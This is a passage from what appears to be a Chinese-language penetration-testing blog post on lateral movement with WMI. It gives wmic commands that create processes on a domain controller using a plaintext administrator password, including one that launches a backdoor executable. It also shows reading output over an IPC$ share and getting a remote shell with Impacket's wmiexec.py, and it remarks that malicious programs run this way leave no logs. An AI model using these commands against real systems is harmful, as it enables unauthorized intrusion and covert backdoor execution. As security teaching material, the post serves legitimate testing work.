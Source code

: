![](https://i-blog.csdnimg.cn/blog_migrate/3505d16aeb406f8d2a3eff776f638b96.jpeg)

#### 远程创建进程

如下，以administrator用户连接192.168.183.130(DC)，并在机器上创建一个进程执行ipconfig命令，将结果写入C:\\result.txt文本文件中：（由于wmic执行远程命令没有回显，所以要将结果写入到txt中）

```cobol
`wmic /node:192.168.183.130 /user:administrator /password:Liu78963 process call create "cmd.exe /c ipconfig > C:\result.txt"wmic /node:192.168.183.130 /user:administrator /password:Liu78963 process call create "cmd.exe /c <命令> > C:\result.txt"wmic /node:192.168.183.130 /user:administrator /password:Liu78963 process call create "目录\backdoor.exe"`
`// /node：指定将对其进行操作的服务器`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/6bf132fa987b9429dae87f715a748a3b.jpeg)

这里如果我预先与目标主机建立了ipc$连接，所以就不需要在wmic指定/user和/password了。

然后，由于wmic执行远程命令没有回显，所以在建立ipc$连接后，使用type命令远程读取192.168.52.138上的执行结果：

```crystal
`type \\192.168.52.138\c$\result.txt`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/6811ced24acb66a111f3e7f8feaa1b2a.jpeg)

如上图所示，命令执行成功了。

使用WMIC远程执行命令，在远程系统中启动WMIC服务(目标服务器需要开放其默认135端口，WMIC会以管理员权限在远程系统中执行命令)。如果目标服务器开启了防火墙，WMIC将无法连接。另外由于wmic命令没有回显，需要使用IPC$和type命令来读取信息。需要注意的是，如果WMIC执行的是恶意程序，也不会留下日志。下面我们介绍一下几个可以用来执行wmi远程命令的工具。

### WMIEXEC

wmiexec是对windows自带的wmic做了一些强化，让渗透变得更容易。比较好用的在这里介绍几种。wmiexec需要提供账号密码进行远程连接，但是如果没有破解出账号和明文密码，也可以配合哈希传递或票据注入功能一起使用，先进行传递或注入，然后再使用WMIEXEC即可。

#### Impacket中的wmiexec.py

该脚本是impacket工具包中的一个工具，主要在从Linux像Windows进行横向渗透时使用，十分强大，可以走socks代理进入内网。

下载地址：

https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

使用很简单，运行如下命令获取目标系统DC(192.168.183.130)的Shell：

```cobol
`python wmiexec.py administrator:Liu78963@192.168.183.130``// python wmiexec.py 用户名:密码@目标IP`



AI写代码
```
